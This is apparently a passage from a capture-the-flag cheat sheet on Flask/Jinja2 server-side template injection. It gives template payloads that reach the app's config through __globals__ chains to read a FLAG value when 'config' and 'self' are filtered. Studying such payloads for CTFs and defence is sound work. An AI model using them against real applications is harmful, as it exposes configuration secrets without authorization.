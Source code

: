### Special variables
- url_for, g, request, namespace,lipsum,range,session,dict,get_flashed_messages,cycler,joiner,config, etc. When config and self are filtered, but still need to obtain configuration information, you need to go from its upper global variables (access the configuration current_app, etc.)

```python
{{url_for.__globals__['current_app'].config.FLAG}}

{{get_flashed_messages.__globals__['current_app'].config.FLAG}}

{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}